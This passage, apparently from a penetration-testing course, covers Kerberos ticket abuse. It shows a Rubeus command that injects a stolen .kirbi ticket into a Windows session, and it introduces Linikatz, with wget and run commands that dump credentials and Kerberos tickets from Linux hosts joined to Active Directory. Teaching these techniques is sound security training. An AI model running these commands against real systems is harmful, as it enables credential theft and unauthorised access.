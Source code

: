 Note: We can do the reverse operation by first selecting a `.kirbi file`
#### Importing Converted Ticket into Windows Session with Rubeus

```cmd-session
C:\tools\Rubeus.exe ptt /ticket:c:\tools\julio.kirbi
```

## Linikatz

[Linikatz](https://github.com/CiscoCXSecurity/linikatz) is a tool created by Cisco's security team for exploiting credentials on Linux machines when there is an integration with Active Directory.
- `Mimikatz` to UNIX environments.
- root required
This tool will extract all credentials, including Kerberos tickets, from different Kerberos implementations such as FreeIPA, SSSD, Samba, Vintella, etc. Once it extracts the credentials, it places them in a folder whose name starts with `linikatz`

```shell-session
wget https://raw.githubusercontent.com/CiscoCXSecurity/linikatz/master/linikatz.sh
```

```shell-session
/opt/linikatz.sh
```




